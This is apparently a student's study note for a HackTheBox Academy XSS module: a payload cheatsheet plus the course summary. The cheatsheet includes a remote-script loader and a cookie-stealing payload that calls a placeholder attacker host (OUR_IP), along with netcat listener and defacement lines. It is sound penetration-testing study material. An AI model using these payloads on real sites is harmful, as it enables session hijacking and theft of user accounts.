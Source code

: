 # Cross-Site Scripting (XSS)

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[HTB Academy]]

![[logo_cross_site_scripting_xss.png]]

Cross-Site Scripting (XSS) vulnerabilities are among the most common web application vulnerabilities. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. This module will teach you how to identify XSS vulnerabilities and exploit them.

### Cheatsheet

#### Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |

### Module Summary

Web Application Penetration Testing is a vital part of any penetration test. It plays an essential role in identifying critical vulnerabilities that may lead to the organization's assets being compromised. Cross-Site Scripting (XSS) vulnerabilities are among the most common vulnerabilities in any web application, with studies indicating that over 80% of all web applications are vulnerable to it. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser, leading to various types of attacks, including compromising web admins and their web applications.

While many organizations choose to ignore XSS vulnerabilities, as it only affects end-users without having a direct ability to execute code on the back-end server, in this module, we will discuss why XSS should be taken seriously. We will discuss the three types of XSS vulnerabilities, how to identify them, and how to exploit them.

In addition to this, the `Cross-Site Scripting (XSS)` module will teach you the following:

-   What is an XSS vulnerability?
-   History of XSS attacks in real-life
-   What are `Stored XSS`, `Reflected XSS`, and `DOM-based XSS` vulnerabilities
-   Techniques to identify XSS vulnerabilities
-   Performing `Defacing` attacks to change the look of a website
-   Performing `Phishing` attacks to steal the victim's login details and to perform a phishing simulation exercise
-   Performing `Session Hijacking` attacks to obtain the victim's session cookie and use them to access their account
-   Front-end and Back-end steps to prevent XSS vulnerabilities and protect your web application against them

* * * * *

This module is broken into sections with accompanying hands-on exercises to practice each of the tactics and techniques we cover. The module ends with a practical hands-on skills assessment to gauge your understanding of the various topic areas.

You can start and stop the module at any time and pick up where you left off. There is no time limit or "grading," but you must complete all of the exercises and the skills assessment to receive the maximum number of cubes and have this module marked as complete in any paths you have chosen.

As you work through the module, you will see example commands and command output for the various topics introduced. It is worth reproducing as many of these examples as possible to reinforce further the concepts presented in each section. You can do this in the `PwnBox` provided in the interactive sections or your virtual machine.

* * * * *

The module is classified as "`Easy`" and assumes a working knowledge of the Linux command line and an understanding of information security fundamentals. The module also assumes a basic understanding of web applications and web requests and will build on this understanding to teach how XSS vulnerabilities and attacks work.

In addition to the above, a firm grasp of the following modules can be considered as prerequisites for the successful completion of this module:

-   Learning Process
-   Web Requests
-   Intro to Web Applications